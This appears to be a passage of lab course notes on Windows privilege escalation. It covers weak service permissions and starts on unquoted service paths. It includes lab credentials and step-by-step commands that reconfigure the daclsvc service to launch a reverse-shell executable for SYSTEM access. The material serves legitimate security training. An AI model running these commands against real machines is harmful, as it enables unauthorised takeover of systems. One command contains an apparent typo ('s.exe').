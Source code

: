 If our user has permission to change the configuration of a 
service which runs with SYSTEM privileges, we can change 
the executable the service uses to one of our own.

> **Potential Rabbit Hole:** If you can change a service 
configuration but cannot stop/start the service, you may not 
be able to escalate privileges!

---
**Exercise:**
- IP : 10.12.1.100/24
- ID : student\admin
- PASSWORD : password321

Connect to 10.12.1.100/24 with user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
1. Note that we can modify the ``daclsvc`` service.
1. We can confirm this with accesschk.exe:
    ```` 
    .\accesschk.exe /accepteula -uwcqv user daclsvc
    ````
1. Check the current configuration of the service:
    ````
    s.exe qc daclsvc
    ````
1. Check the current status of the service:
    ````
    sc.exe query daclsvc
    ````
1. Reconfigure the service to use our reverse shell executable:
    ````
    sc.exe config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
    ````
1. Start a listener on Kali, and then start the service to trigger the 
exploit:
    ````
    net start daclsvc
    ````

AND BIM!

---

### Unquoted Service Path

Executables in Windows can be run without using their 
extension (e.g. “whoami.exe” can be run by just typing 
“whoami”).  

Some executables take arguments, separated by spaces, e.g. 
someprog.exe arg1 arg2 arg3…
This behavior leads to ambiguity when using absolute paths 
that are unquoted and contain spaces.
